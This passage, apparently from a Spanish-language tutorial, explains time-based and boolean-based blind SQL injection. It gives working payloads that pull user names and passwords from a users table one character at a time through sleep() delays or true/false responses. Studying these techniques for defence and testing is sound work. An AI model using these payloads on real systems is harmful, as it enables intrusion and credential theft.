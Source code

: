 Por ultimo, tomemos el ejemplo en donde el usuario a su vez, en la línea de la query `SELECT username FROM users WHERE user_id='$id'` ahora no el user_id=$id **NO** tiene comillas, de esta manera por un nuevo error, el sistema sigue siendo vulnerable a **SQLI** pero de una manera un poco más compleja.

-----

- # Inyección SQL basada en tiempo: 
Este tipo de **SQLI** utiliza una consulta que **tarda un determinado tiempo en ejecutarse** para obtener información. Por ejemplo, si se utiliza una consulta que realiza una búesqueda en una tabla y se añade un retado en la consulta, se puede uitilizar ese retardo para obtener información adicional. 

Ejemplo con caso anterior: 

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basada en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el tiempo para corroborar si la petición devuelve 200 OK a los 5s de ejecutarla (Indicando asi, que es TRUE)
SELECT username FROM users WHERE user_id=1241 OR if(ascii(substr((select group_concat(name,0x3a,password) from users),1,1))=97,sleep(5),1)
```

Con esta QUERY maliciosa `OR if(ascii(substr((select group_concat(name,0x3a,password) from users),1,1))=97,sleep(5),1)` estamos abusando de que el usuario 1241 no existe para verificar si esta sentencia se cumple, pidiendo que si el codigo ascii del primer caracter del conjunto de valores de "name" + 0x3a (":") + "password" es igual a 97 (Letra 'a' en codigo ascii), hagamos que la página tarde en responder 5s (sleep(5)), de lo contrario devolvemos solo un 200 OK.

-----

- # Inyección SQL basada en booleanos:
Este tipo de **SQLI** utiliza consultas con **expresiones booleanas** para obtener información adicioanl. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el booleano, ya que sabemos que la primea petición no se cumple si se cumple la 2da podriamos ir deduciendo los datos
SELECT username FROM users WHERE user_id=1241 OR (select ascii(substr(group_concat(name,0x3a,password),1,1))=97)
```
